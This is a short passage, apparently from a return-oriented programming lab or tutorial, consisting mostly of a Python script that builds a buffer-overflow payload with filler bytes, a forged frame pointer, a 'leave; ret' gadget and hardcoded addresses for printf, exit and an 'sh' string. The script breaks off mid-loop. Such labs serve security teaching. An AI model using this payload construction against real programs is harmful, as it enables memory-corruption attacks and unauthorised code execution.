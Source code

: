     <img src="rop_static//11.png" width="500"/>
</div>

```python{.line-numbers}
import sys

def tobytes(value):
    return (value).to_bytes(4, byteorder='little')

leaveret     = 0x5655623a
sh_addr      = 0xffffd3cb
printf_addr  = 0xf7dd4520
exit_addr    = 0xf7db71f0
ebp_foo      = 0xffffc888

content = bytearray(0xaa for i in range(112))

ebp_next = ebp_foo + 0x20
content += tobytes(ebp_next)
content += tobytes(leaveret)
content += b'A' * (0x20 - 2*4)

for i in range(20):
```